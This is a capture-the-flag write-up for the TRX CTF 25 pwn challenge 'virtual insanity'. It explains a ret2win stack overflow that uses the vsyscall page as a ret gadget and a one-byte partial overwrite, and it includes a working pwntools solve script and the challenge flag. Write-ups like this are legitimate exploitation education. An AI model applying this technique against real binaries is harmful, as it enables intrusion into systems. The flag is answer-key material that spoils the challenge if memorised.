 ```yaml
---
title: TRX CTF 25 - virtual insanity
date: '2025-02-26'
lastmod: '2025-02-26T15:00:00+02:00'
categories:
- writeup
- trxctf25
tags:
- pwn
- ret2win
- vsyscall
authors:
- Erge
---
```


## Description

Dancing, Walking, Rearranging Furniture

**DISCLAIMER**: This challenge doesn't require brute-forcing
## Overview of the challenge

The challenge is a standard ret2win with a pretty obvious overflow of 0x30 bytes, the binary is compiled without stack canary protection but has pie, with no apparent way to leak addresses.

## Solution

The intended solution involves performing a partial overwrite to redirect execution to the `win` function. However, the return address on the stack is a libc address. To work around this, we can leverage [vsyscall](https://0xax.gitbooks.io/linux-insides/content/SysCall/linux-syscall-3.html) to traverse the stack until we locate the address of `main`. By modifying its least significant byte (LSB), we can transform it into the address of `win`. When execution returns, `vsyscall` effectively acts as a `ret` gadget, allowing us to redirect control flow to `win`.

Before overwrite:\
![](img1.png)

After overwrite:\
![](img2.png)

## Solve Script

```py
#!/usr/bin/env python3

from pwn import *
from time import sleep

exe = ELF("./chall")

context.binary = exe

REMOTE_NC_CMD    = "nc localhost 7011"    # `nc <host> <port>`

bstr = lambda x: str(x).encode()
ELF.binsh = lambda self: next(self.search(b"/bin/sh\0"))

GDB_SCRIPT = """
set follow-fork-mode parent
set follow-exec-mode same
"""

def conn():
    if args.LOCAL:
        return process([exe.path])
    
    if args.GDB:
        return gdb.debug([exe.path], gdbscript=GDB_SCRIPT)
    
    return remote(REMOTE_NC_CMD.split()[1], int(REMOTE_NC_CMD.split()[2]))

def main():
    r = conn()

    VSYSCALL = 0xffffffffff600000 #effectively a ret gadget
    r.send(b"A"*0x28 + p64(VSYSCALL)*2 + b"\xa9"); #lsb of win()

    r.interactive()

if __name__ == "__main__":
    main()
```

## Flag

`TRX{1_h0p3_y0u_d1dn7_bru73f0rc3_dc85efe0}`